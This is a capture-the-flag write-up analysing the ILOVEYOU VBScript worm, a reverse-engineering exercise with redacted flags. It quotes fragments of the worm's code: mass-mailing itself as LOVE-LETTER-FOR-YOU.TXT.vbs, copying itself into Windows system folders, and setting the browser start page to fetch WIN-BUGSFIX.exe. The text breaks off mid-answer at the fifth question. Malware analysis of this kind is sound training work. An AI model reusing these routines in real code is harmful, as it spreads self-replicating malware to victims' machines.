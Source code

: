 # ILOVEYOU

# Challange intro
```
Points: 
10

Category: 
Reverse Engineering

Cost: 
Free

Scenario:
ILOVEYOU the 3 magical words which have an impact in most of the people's life.
On the other hand, these 3 words don't need any introduction for the people in the Infosec industry.

Let's relive history by analysing the ‘ILOVEYOU’ malware.

This challenge should be completed in a virtual machine as it contains real malware.
```

## Q1, What is the text present as part of email when the victim received this malware?

My thought process here was to check the email body tag, where I could find the code

```
male.Recipients.Add(malead)
          male.Subject = "ILOVEYOU"
          male.Body = vbcrlf & "<FLAG>"
          male.Attachments.Add(dirsystem & "\LOVE-LETTER-FOR-YOU.TXT.vbs")
          male.Send
```
And by looking within the "male.body" we can read the mails content.

## Q2, What is the domain name that was added as the browser's homepage?

Homepages are based on register sub-keys/values (in most cases). So i started looking for the startpages keys for diffrent browsers.

```

regcreate "HKCU\Software\Microsoft\Internet Explorer\Main\StartPage", "<FLAG>"/skladjflfdjghKJnwetryDGFikjUIyqwerWe546786324hjk4jnHHGbvbmKLJKjhkqj4w/WIN-BUGSFIX.exe"

```
By using ctrl + f I got a hit on the IE StartPage path in the code. 

## Q3, The malware replicated itself into 3 locations, what are they?

For this some fast research was needed. 

In the code I found this code snippet:

```
rem Finds special folders, such as system, temporary and windows folders.
  Set dirwin = fso.GetSpecialFolder(0)
  Set dirsystem = fso.GetSpecialFolder(1)
  Set dirtemp = fso.GetSpecialFolder(2)
  Set c = fso.GetFile(WScript.ScriptFullName)

  rem Copy itself into VBScript files <PART OF THE FLAG.vbs>, <PART OF THE FLAG.vbs> and
  rem <PART OF THE FLAG.TXT.VBS>
  c.Copy(dirsystem & "<PART OF THE FLAG>")
  c.Copy(dirwin & "\<PART OF THE FLAG>")
  c.Copy(dirsystem & "\<PART OF THE FLAG>")
````
To summirize in short, in VBS there is a "GetSpecialFolder" method. Where in this case the fso.GetSpecialFolder(1).
"GetSpecialFolder" becomes the object and the (number) becomes the folderspec.

```
0 = The Windows folder contains files installed by the Windows operating system. In this case 

1 = The System folder contains libraries, fonts, and device drivers. 

2 = The Temp folder is used to store temporary files. Its path is found in the TMP environment variable.

In this case: 
dirsystem --> C:\Windows\System32\
dirwin -- > C:\Windows\
```
Then we just add the the object + the file = C:\Windows\System32\<PART OF THE FLAG>

## Q4, What is the name of the file that looks for the filesystem?

My approach here was very starightforward. 

I just ctrl + f and searched for the most common windows filesystems NTFS & FAT32

And got a hit: 

```
rem Check if a file named "<FLAG>" exists in the system files.
  If (fileexist(dirsystem & "<FLAG>") = 1) Then
    Randomize
```

## Q5, Which file extensions, beginning with m, does this virus target?

At this point, I started to learn how the malware behaved. The malware liked to copy itself to to exsiting files in the system 